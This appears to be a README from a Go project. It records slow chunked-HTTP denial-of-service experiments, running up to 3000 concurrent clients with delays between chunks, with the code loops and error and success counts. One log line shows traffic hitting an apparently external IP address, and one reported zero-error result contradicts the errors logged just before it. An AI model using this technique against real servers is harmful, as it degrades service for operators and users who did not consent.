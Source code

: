 # Anti-ddos attack

Created with [ProshNad](https://github.com/ProshNad)

## Main idea
Send chunked requests with some timeout. Will connection closed or not? If not, we will try to create 3000+ clients and start them to send those requests

We have such message:

```go
msg := []string{"POST / HTTP/1.1\r\n" +
    "Host: debian\r\n" +
    "Content-Type: text/html\r\n" +
    "Transfer-Encoding: chunked\r\n" +
    "4\r\n",
    "test77776767667\r\n",
    "0\r\n",
    "\r\n",
}
```
## Results

### Send 1 chunked request with timeout between chunks

```go
con, closeFunc := newConn()
defer closeFunc()

_, err := sendChunkedRequest(con, i, time.Second*1)
if err != nil {
    log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
}
```
Successfully sent

### Send 3000 parallel requests with 2seconds timeout between chunks

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*2)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
}
```
Some of them got error: `client 1325 with addr 192.168.1.83:49905 got err: can't write, err write tcp 192.168.1.83:49905->142.250.201.209:80: write: broken pipe `
It seems the server closed connection. Perhaps it has timeout for getting all request.

```shell
total errCount 0
total goodCount 2999
```

Try to set timeout between creating clients

### Send 3000 parallel requests with 10milliseconds timeout between creating clients

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*2)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
	
	time.Sleep(time.Millisecond*10)
}
```

```shell
total errCount 0
total goodCount 2999
```

### Send 3000 parallel requests with 10milliseconds timeout between creating clients and 10 seconds between chunks
```shell
total errCount 0
total goodCount 2999
```

Let's try to modify our message: we duplicate it.

We have such message:

```go
msg := []string{"POST / HTTP/1.1\r\n" +
    "Host: debian\r\n" +
    "Content-Type: text/html\r\n" +
    "Transfer-Encoding: chunked\r\n" +
    "4\r\n",
    "test77776767667\r\n",
    "0\r\n",
    "\r\n",
	"POST / HTTP/1.1\r\n" +
	"Host: debian\r\n" +
    "Content-Type: text/html\r\n" +
    "Transfer-Encoding: chunked\r\n" +
    "4\r\n",
    "test77776767667\r\n",
    "0\r\n",
    "\r\n",
}
```

### Send 3000 parallel 2x-requests with 2seconds timeout between chunks 

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*2)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
}
```
Some of them got error: `client 1325 with addr 192.168.1.83:49905 got err: can't write, err write tcp 192.168.1.83:49905->142.250.201.209:80: write: broken pipe `
It seems the server closed connection. Perhaps it has timeout for getting all request.

Results
```shell
total errCount 856
total goodCount 2141
```

### Send 3000 parallel 2x-requests with 5seconds timeout between chunks

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*5)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
}
```

Results
```shell
total errCount 2756
total goodCount 234
```

Error count was increased.

### Send 3000 parallel 2x-requests with 10seconds timeout between chunks

Results
```shell
total errCount 2999
total goodCount 0
```

